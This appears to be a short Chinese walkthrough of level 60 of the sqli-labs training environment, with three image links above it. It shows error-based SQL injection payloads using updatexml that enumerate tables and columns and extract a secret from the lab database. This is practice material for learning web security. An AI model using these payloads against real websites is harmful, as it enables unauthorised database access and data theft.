



## sql-labs第六十关

六十关根据报错信息可知id参数是双引号加括号

### 爆表

~~~ cmd
?id=1") and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
~~~

### 爆列

~~~ cmd
?id=1") and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='challenges' and table_name='NTXT24T09Q'),0x7e),1)--+
~~~

### 爆数据

~~~ cmd
?id=1") and updatexml(1,concat(0x7e,(select group_concat(secret_68FZ) from NTXT24T09Q),0x7e),1)--+
~~~

至此成功